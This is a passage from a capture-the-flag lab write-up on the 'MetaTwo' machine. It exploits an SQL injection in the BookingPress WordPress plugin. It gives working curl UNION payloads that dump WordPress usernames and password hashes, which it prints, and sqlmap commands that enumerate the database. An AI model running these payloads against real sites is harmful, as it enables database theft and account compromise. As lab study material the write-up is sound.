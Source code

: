 
For some reason, I am not able to query table names from the database blog:


```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=047d5a1a7e&category_id=33&total_service=-7502) UNION ALL SELECT group_concat(table_name),@@version,@@version,1,2,3,4,5,6 from information_schema.tables where table_schema='blog';-- -'
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/metatwo/Images/htb/metatwo/image-13.png)

Since I cannot query table names, I will assume tables names based on public information out there.

Many [articles](https://codex.wordpress.org/Database_Description) out there shows me Wordpress Database structure as such:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/metatwo/Images/htb/metatwo/image-15.png)


I will assume table **wp_users** exists and query **user_login** and **user_pass** from it and luckily it does exists, throwing admin and manager password hashes back at me:


```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=047d5a1a7e&category_id=33&total_service=-7502) UNION ALL SELECT user_login,user_pass,@@version,1,2,3,4,5,6 from wp_users;-- -'
```

| bookingpress_service_id | bookingpress_category_id                              |
|-------------------------|---------------------------------------------------------|
| admin                   | $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.                     |
| manager                 | $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70                    |


![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/metatwo/Images/htb/metatwo/image-16.png)



### SQLMap

I can automated the process above with SQLmap as well.


Let's first confirm whether parameter **total_service** is vulnerable or not(it is vulnerable):

`sqlmap -u http://metapress.htb/wp-admin/admin-ajax.php --data 'action=bookingpress_front_get_category_services&_wpnonce=047d5a1a7e&category_id=1&total_service=1' -p total_service`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/metatwo/Images/htb/metatwo/image-17.png)

I can dump tables in database blog as such:


`sqlmap -u http://metapress.htb/wp-admin/admin-ajax.php --data 'action=bookingpress_front_get_category_services&_wpnonce=047d5a1a7e&category_id=1&total_service=1' -p total_service -D blog --tables`

